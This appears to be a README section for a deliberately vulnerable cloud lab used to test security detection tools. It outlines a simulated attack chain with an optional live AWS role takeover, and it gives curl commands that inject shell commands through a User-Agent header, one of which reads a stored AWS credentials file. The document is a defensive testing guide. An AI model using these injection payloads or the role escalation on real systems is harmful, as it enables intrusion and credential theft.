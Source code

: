 ## Stage 2: Runtime Exploitation Testing (24+ hours)

### Objective
Test behavioral detection and incident response capabilities through active exploitation and attack simulation.

### Prerequisites
- Stage 1 baseline establishment complete (24+ hours)
- EDR/XDR agent installed and reporting
- CSPM tools have established normal behavior patterns

### Stage 2 Testing Execution

#### **Automated Exploitation Suite**
```bash
./start.sh
# Select option 5: ⚡ Multi-Stage Runtime Exploits (Stage 2)
```

This executes a 5-stage attack simulation:
1. **System Reconnaissance** (T1083 - File and Directory Discovery)
2. **Credential Harvesting** (T1552.001 - Credentials In Files)  
3. **File System Enumeration** (T1083 - File and Directory Discovery)
4. **Process Enumeration** (T1057 - Process Discovery)
5. **CIEM Privilege Escalation** (Simulated EC2 Instance Role → Lambda Admin Role takeover with optional REAL execution — Cloud IAM/Lambda attack chain)
   - **If run in execute mode**: Will attempt actual AWS `sts:AssumeRole` into a Lambda administration role and create a live Lambda function (then delete if undo selected)
   - **MITRE ATT&CK Mapping**: T1552.006 *(Cloud Instance Metadata API)*, T1078 *(Valid Accounts)*, T1059.004 *(Unix Shell)*, T1190 *(Exploit Public-Facing Application)*
   - **OWASP Top 10 Mapping**: A05:2021 *(Security Misconfiguration)*, A07:2021 *(Identification and Authentication Failures)*
   - Demonstrates **Cloud Infrastructure Entitlement Management (CIEM)** risks: privilege escalation via misconfigured trust relationships and over-permissive roles

#### **Individual Exploit Testing**
```bash
# Quick RCE validation
./start.sh
# Select option 3: 🧪 Quick RCE Test

# Manual exploitation examples
export TARGET_IP=$(cd terraform && terraform output -raw public_ip)

# Shellshock-like RCE (direct header command injection)
curl -H "User-Agent: id; whoami; uname -a" http://$TARGET_IP/cgi-bin/exec.cgi

# Credential harvesting
curl -H "User-Agent: cat /opt/cnappuccino/secret/aws_creds.txt" http://$TARGET_IP/cgi-bin/exec.cgi

# File enumeration
curl -H "User-Agent: ls -la /opt/cnappuccino/secret/" http://$TARGET_IP/cgi-bin/exec.cgi
```
